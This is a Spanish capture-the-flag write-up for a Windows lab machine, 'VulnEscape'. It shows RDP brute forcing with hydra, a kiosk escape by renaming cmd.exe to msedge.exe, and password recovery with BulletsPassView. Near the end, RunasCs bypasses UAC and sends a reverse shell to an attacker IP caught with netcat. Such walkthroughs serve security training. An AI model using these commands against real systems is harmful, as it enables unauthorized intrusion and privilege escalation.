# Resolución maquina VulnEscape

**Autor:** PepeMaquina.
**Fecha:** 15 de Marzo de 2026.
**Dificultad:** Easy.
**Sistema Operativo:** Windows.
**Tags:** RDP, UAC.

---
## Imagen de la Máquina

*Imagen: VulnEscape.JPG*
## Reconocimiento Inicial
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 2000 -n -Pn 10.129.234.51 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p3389 10.129.234.51 -oN targeted
~~~
Algo curioso es que solamente se tiene un puerto abierto, este es RDP.
### Enumeración de Servicios
~~~bash
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: ESCAPE
|   NetBIOS_Domain_Name: ESCAPE
|   NetBIOS_Computer_Name: ESCAPE
|   DNS_Domain_Name: Escape
|   DNS_Computer_Name: Escape
|   Product_Version: 10.0.19041
|_  System_Time: 2026-03-21T02:22:58+00:00
| ssl-cert: Subject: commonName=Escape
| Not valid before: 2026-03-20T02:16:43
|_Not valid after:  2026-09-19T02:16:43
|_ssl-date: 2026-03-21T02:23:02+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
~~~
### Enumeración de servicio RDP
Solamete se tiene el servicio RDP abierto, sin credenciales no existe mucho que hacer, lo primero que se realiza es realizar un poco de fuerza bruta con hydra.
~~~bash
┌──(kali㉿kali)-[~/htb/vulnescape/nmap]
└─$ hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p '' rdp://10.129.234.51 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-03-20 22:49:44
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 8295455 login tries (l:8295455/p:1), ~2073864 tries per task
[DATA] attacking rdp://10.129.234.51:3389/
[3389][rdp] account on 10.129.234.51 might be valid but account not active for remote desktop: login: 2000 password: , continuing attacking the account.
[3389][rdp] account on 10.129.234.51 might be valid but account not active for remote desktop: login: admin password: , continuing attacking the account.
[STATUS] 18.00 tries/min, 18 tries in 00:01h, 8295437 to do in 7680:58h, 4 active
~~~
Se pudo observar que con los usuarios `admin` y `2000` se tiene un error, esto puede indicar que los usuarios si existen pero parece que no estan habilitados.

Sin tener mucha mas información, se realiza enumeración de RDP con Netexec.
~~~bash
┌──(kali㉿kali)-[~/htb/vulnescape/nmap]
└─$ sudo netexec rdp 10.129.234.51 -u '' -p ''                                     
RDP         10.129.234.51   3389   ESCAPE           [*] Windows 10 or Windows Server 2016 Build 19041 (name:ESCAPE) (domain:Escape) (nla:False)
RDP         10.129.234.51   3389   ESCAPE           [-] Escape\: (STATUS_LOGON_FAILURE)
~~~
Algo que se puede notar es que tiene el permiso `nla` desactivada, esto puede indicar que se podría entrar a la maquina si credenciales y ver el contenido.
Netexec tiene una utilidad para aprovechar esta opción, esta saca un scrennshot.
~~~bash
┌──(kali㉿kali)-[~/htb/vulnescape/nmap]
└─$ sudo netexec rdp 10.129.234.51 -u '' -p '' --nla-screenshot
RDP         10.129.234.51   3389   ESCAPE           [*] Windows 10 or Windows Server 2016 Build 19041 (name:ESCAPE) (domain:Escape) (nla:False)
RDP         10.129.234.51   3389   ESCAPE           [-] Escape\: (STATUS_LOGON_FAILURE)
RDP         10.129.234.51   3389   ESCAPE           NLA Screenshot saved /root/.nxc/screenshots/ESCAPE_10.129.234.51_2026-03-20_230304.png
~~~
Al revisar la imagen, este indica que existe un usuario llamado `KioskUser0` que puede ingresar sin contraseña.



Al usar remmina para ingresar con este usuario, se puede solamente un fondo de pantalla sin lograr presionar ninguna tecla ni boton del mouse.

Al revisar todo lo posible, al presionar la tecla `windows`, este abre el inicio de windows, pero de igual manera no es posible interactuar con ella.
Realizando una comparacion con un sistema real, en el lugar donde deberia de estar el tablero de escritura aparece vacia.



Pero al presionarla si entrega una consola de escritura donde se puede buscar aplicaciones.
Lo primero que se busco fue el cmd, powershell u alguna forma de ingresar a la terminal, pero seguramente tiene un UAC habilitado para evitar el acceso a estos programas.



De los pocos lugares a los que se puede ingresar y que aparecen como aplicaciones principales es la configuración.



Al entrar en el tampoco existen muchas alternativas para poder ingresar a algun archivo o progama interesante, pero lo malo es que todo esta escrito en un idioma muy diferente, posiblemente alguno asiatico como chino, japones o koreano.

***Al ingresar a la configuracion, interactivamente realizando comparaciones con mi sistema se logro llegar a la opcion de idiomas y tiene cargado la opcion de `English`, se puede cambiar el idioma pero esto necesita reiniciarse para que surja efecto, en un entorno real no se puede reiniciar nada asi que lo dejo de lado y sigo con el idioma chino***

Interactuando con las configuraciones y abriendo diferentes opciones a lo loco, se logro ingresar a al navegador EDGE pero parece no estar configurado, y realizando mas configuraciones se logro ingresar al navegador como tal. 
Este la unica aplicacion junto con la calculadora que si acepta para abrirse, por lo que seguramente tiene un UAC activado que evita poder abrir mas aplicaciones.

Dentro de EDGE se intenta ingresar a la cmd colocando `crtl + o` pero por alguna razon lo sigue bloqueando.



Al revisar el contenido de ese directorio de archivos tampoco se puede encontrar algo util.
Otra cosa que se puede hacer con el navegador es ver archivos locales del disco C.



Se puede ver varios contenidos, revisando cada uno se puede ver el `user.txt`.



---
## Escalada de Privilegios
Revisando mas archivos se logro encontrar un archivo perteneciente al usuario `admin` para acceso por RDP plus.



Esto tiene credenciales, se intento probar el ingreso por RDP desde fuera pero esto no fue posible, por ende se busco una aplicacion que seguramente abra `Remote Desktop Plus`.



Esto contiene un ejecutable, pero evidentemente esto lo descarga, al intentar abrirlo esto no es posible.





Preguntando a la IA la traduccion esta dice que es Koreano e indica que por permisos de seguridad esto no puede ejecutarse. Esto es un gran problema, 

Si bien recordamos, las unicas aplicaciones que tiene permiso de ejecucion son EDGE y la Calculadora, la calculadora no tiene un ejecutable por defecto ya que viene integrado directamente en el sistema y buscando por EDGE este tiene un ejecutable llamado `msedge.exe`.



Una forma en la que el UAC lo puede estar bloqueando es por el nombre, debido a que si algun nombre es diferente a este, simplemente nada funcionaria.

Lo primero que se me ocurre es cambiar de nombre del ejecutable por `msedege` para ver si asi funciona, pero mas que eso, me interesaria poder ingresar por el cmd para tener mas movilidad, asi que se descarga el binario de `cmd.exe` y es ese el que se renombra.



Al cambia el nombre e intentar ingresar ahora si se puede hacerlo, obteniendo una terminal interactiva.



Por alguna razon dentro de ella si se puede abrir mas ejecutables, como lo intente al abrir la powershell.

Dentro de ello, lo primero se ve es si existe el usuario `admin` y que permisos tiene.
~~~powershell
PS C:\Users\kioskUser0\Downloads> net users

User accounts for \\ESCAPE

-------------------------------------------------------------------------------
admin                    Administrator            DefaultAccount
Guest                    kioskUser0               WDAGUtilityAccount
The command completed successfully.
~~~

~~~powershell
PS C:\Users\kioskUser0\Downloads> net user admin
User name                    admin
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/3/2024 3:45:01 AM
Password expires             Never
Password changeable          2/3/2024 3:45:01 AM
Password required            No
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   3/21/2026 2:14:43 PM

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.
~~~
Se puede ver que este usuario pertenece al grupo de administrators, por lo que tiene permisos grandes y es importante descifrar su contraseña.

Al cargar el programa de `RDP plus` se puede ver un lugar para importar el archivo profile.xml que se encontro hace un momento.
~~~powershell
PS C:\Users\kioskUser0\Downloads> 'C:\Program Files (x86)\Remote Desktop Plus\rdp.exe'
~~~





Al subir el archivo, no se pudo ver la contraseña.



Pero tiene una opcion de editarla, pero lastimosamente tampoco se puede verla ni tiene opcion de copiarla.



Para contraseñas que no se pueden ver y tienen lo puntos con caracteres en la pestaña, se puede usar una herramienta `BulletsPassView` (https://www.nirsoft.net/utils/bullets_password_view.html) que sirve para poder ver contraseñas que no se pueden ver y aparecen como ocultas.

Pasando este binario al servidor, se lo ejecuta y se logra ver una contraseña.
~~~powerview
PS C:\Users\kioskUser0\Downloads> .\BulletsPassView-x64.exe
~~~



Con esta contraseña se intenta ingresar por RDP desde la maquina atacante mediante `xfreerdp3`.
~~~bash
┌──(kali㉿kali)-[~/htb/vulnescape]
└─$ sudo netexec rdp 10.129.234.51 -u users -p pass --continue-on-success
RDP         10.129.234.51   3389   ESCAPE           [*] Windows 10 or Windows Server 2016 Build 19041 (name:ESCAPE) (domain:Escape) (nla:False)
RDP         10.129.234.51   3389   ESCAPE           [-] Escape\KioskUser0:TwiXXXXX021 (STATUS_LOGON_FAILURE)
RDP         10.129.234.51   3389   ESCAPE           [+] Escape\admin:TwiXXXXX021 (Pwn3d!)
RDP         10.129.234.51   3389   ESCAPE           [-] Escape\2000:TwiXXXXX021 (STATUS_LOGON_FAILURE)
RDP         10.129.234.51   3389   ESCAPE           [-] Escape\administrator:TXXXXX1 (STATUS_LOGON_FAILURE)
~~~

~~~bash
┌──(kali㉿kali)-[~/htb/vulnescape]
└─$ xfreerdp3 /u:admin /p:'TwXXXX021' /v:10.129.234.51 
[17:14:11:012] [143617:00023102] [WARN][com.freerdp.client.xfreerdp.utils] - [run_action_script]: [ActionScript] no such script '/home/kali/.config/freerdp/action.sh'
~~~
Pero lastimosamente aparece un mensaje de error, esto dice que el usuario `admin` no tiene permisos remote desktop.



Por ende existe otras formas de ingresar.
Se podria usar `Runas`, como se tiene la interfaz grafica, se podria utilizar la runas nativo.
~~~bash
PS C:\Users\kioskUser0\Downloads> runas /user:admin powershell
Enter the password for admin:
Attempting to start powershell as user "ESCAPE\admin"
~~~
Esto abre otra interfaz powershell con permisos de admin.



Lastimosamente este no tiene los permisos tales como deberia tener el grupo administrator.
~~~powershell
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
~~~
Seguramente es por el UAC, asi que se lo puede evadir directamente igualmente usando Runas.
~~~powershell
PS C:\Windows\system32> start-Process powershell -Verb runAs
~~~
Esto igualmente abre otra powershell.





### Alternativa Runas Pentest
Otra herramienta que me gusta usar mas es RunasSc, que es el runas especial para pentest.
Se pasa esta herramienta al servidor y se lo ejecuta para que lanze una reverse shell pero directamente evadiendo el UAC.
~~~bash
PS C:\Users\kioskUser0\Downloads> .\RunasCs.exe admin Twisting3021 powershell --bypass-uac -r 10.10.14.28:1234

[+] Running in session 2 with process function CreateProcessWithLogonW()
[+] Using Station\Desktop: WinSta0\Default
[+] Async process 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' with pid 8016 created in background.
~~~
De una teminal en mi kali se abre un escucha y recibe la shell.
~~~bash
┌──(kali㉿kali)-[~/htb/vulnescape]
└─$ rlwrap -cAr nc -nvlp 1234                   
listening on [any] 1234 ...
connect to [10.10.14.28] from (UNKNOWN) [10.129.234.51] 56535
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\users\administrator\desktop> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled 
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Enabled 
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
<----SNNIP---->
~~~
Este ya tiene los permisos máximos.

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Asi que ahora solo es cosa de buscar las flags.
~~~bash
PS C:\users\administrator> cd C:\users\administrator\desktop                       
PS C:\users\administrator\desktop> type root.txt
<Encuentre su propia root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

